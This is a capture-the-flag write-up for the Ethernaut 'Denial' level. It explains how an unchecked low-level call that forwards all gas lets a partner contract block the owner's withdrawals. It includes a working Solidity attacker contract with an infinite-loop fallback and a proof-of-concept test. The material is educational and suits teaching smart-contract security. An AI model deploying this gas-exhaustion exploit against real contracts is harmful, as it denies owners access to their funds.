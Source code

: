 # Level 20 - Denial

## Objectives

- Deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less).

## Contract Overview

The `Denial` contract allows for withdrawals of funds, with a split between the withdrawal partner and the contract owner, and keeps track of the partner's balance.

## Finding the weak spots

The goal is to make the withdraw call fail. We control the partner contract. The only options we have is to do something bad in the external `call` made to the partner address.

```solidity

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}(""); // <-- this line over here
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

The contract writer's idea was to ensure that even if a `revert` or `require` statement is executed within the contract, the withdrawal to the original owner would still occur. However, the contract has a potential issue with the use of the `.call` function without explicitly specifying a gas limit.

Both the `transfer` and `send` functions, which are high-level functions used to send Ether to a target address, use a fixed amount of 2300 gas to perform the operation. On the other hand, the `call` function has two options:

- it can either forward all the remaining transaction gas by default
- it can specify the amount of gas that the external contract can use with the gas parameter.

If an attacker were to consume all the available gas in the transaction, the calling function would be out of gas and fail. Unlike `revert` and `require`, the `assert` instruction consumes all gas. Therefore, if an attacker were to use an `assert` statement within the `call` function (`assert(false)` before solidity 0.8.0 and `assembly {invalid()}` after solidity 0.8.0), it could result in a denial-of-service attack and cause the calling function to fail. Instead of `assert` statement within the `call` function attacker can also use an infinite while loop `while (true) {}`.

In summary, while the contract writer's idea of allowing the withdrawal to continue even if the contract execution fails is valid, there is a potential issue with the use of the `.call` function without explicitly specifying a gas limit. This could potentially leave the contract vulnerable to a denial-of-service attack.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract with a `fallback` or `receive` function that drains all the gas and prevents further execution of the `withdraw()` function.

## Plan of the attack

1. Attacker creates the malicious contract with a `fallback` function and constructor.
2. Attacker calls the `setWithdrawPartner` function within constructor to make the address of deployed contract the partner.
3. Owner calls the `withdraw` function that makes call to `fallback()` function in the attacker malicious contract.
4. Deny the owner from withdrawing funds.

## Malicious contract (DenialAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Denial.sol";

// 1. Attacker creates the malicious contract with a `fallback` function and constructor.
contract DenialAttack {
    Denial denialContract;

    constructor(address _denialContract) {
        denialContract = Denial(payable(_denialContract));
        // 2. Attacker calls the `setWithdrawPartner` function within constructor to make the address of deployed contract the partner.
        denialContract.setWithdrawPartner(address(this));
    }

    // 4. Deny the owner from withdrawing funds.
    fallback() external payable {
        while (true) {}
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/20-Denial.t.sol))

```solidity
        DenialAttack denialAttack = new DenialAttack(address(level));

        // 3. Owner calls the `withdraw` function that makes call to `fallback()` function in the attacker malicious contract.
        // The `withdraw` function will be called automatically by the `DenialFactory` contract
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Denial.png)

## Recommendations

- Always check the return value of low-level calls, especially in cases where the called address is controlled by a third party.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-17-solution-recovery)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
